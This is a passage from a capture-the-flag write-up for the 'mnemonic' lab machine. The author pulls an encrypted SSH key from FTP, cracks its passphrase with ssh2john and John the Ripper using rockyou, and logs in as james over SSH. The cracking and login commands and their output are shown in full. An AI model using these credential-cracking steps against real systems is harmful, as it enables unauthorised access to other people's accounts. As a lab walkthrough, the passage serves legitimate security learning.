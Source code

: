 Since the directory `data-4` indicated it contained 4 files, I enumerated it:
```bash
ftp> ls -al
  drwxr-xr-x    4 0        0            4096 Jul 14  2020 .
  drwx------   12 1003     1003         4096 Jul 14  2020 ..
  drwxr-xr-x    2 0        0            4096 Jul 14  2020 3
  drwxr-xr-x    2 0        0            4096 Jul 14  2020 4
  -rwxr-xr-x    1 1001     1001         1766 Jul 13  2020 id_rsa
  -rwxr-xr-x    1 1000     1000           31 Jul 13  2020 not.txt
```

I downloaded the two files and analyzed them further:
```bash
kali@kali:~/ctf/mnemonic$ cat not.txt    
  james change ftp user password
                                                                                                                                                              
kali@kali:~/ctf/mnemonic$ cat id_rsa    
  -----BEGIN RSA PRIVATE KEY-----
  Proc-Type: 4,ENCRYPTED
  DEK-Info: AES-128-CBC,01762A15A5B935E96A1CF34704C79AC3

  pSxCqzRmFf4dcfdkVay0+fN88/GXwl3LXOS1WQrRV26wqXTE1+EaL5LrRtET8mPM
  [...]
```

The SSH key caught my attention, but it was encrypted, so I needed to decrypt it first using `ssh2john`:
```bash
kali@kali:~/ctf/mnemonic$ ssh2john id_rsa > hash
                                                                                                                                                            
kali@kali:~/ctf/mnemonic$ john --wordlist=/usr/share/wordlists/rockyou.txt hash    
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  b[removed]e         (id_rsa)     
  1g 0:00:00:00 DONE (2025-03-29 07:10) 25.00g/s 699200p/s 699200c/s 699200C/s chooch..ROSITA
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
```

The password cracking was successful, and I was able to log in via SSH as well:
```bash
kali@kali:~/ctf/mnemonic$ ssh -i id_rsa james@10.10.198.59 -p 1337

james@mnemonic:~$ id
uid=1001(james) gid=1001(james) groups=1001(james)
```

While enumerating the system, I found the following two interesting files:
```bash
james@mnemonic:~$ cat noteforjames.txt
noteforjames.txt

  @vill

  james i found a new encryption İmage based name is Mnemonic  

  I created the condor password. don't forget the beers on saturday


james@mnemonic:~$ cat 6450.txt
  5140656
  354528
  842004
```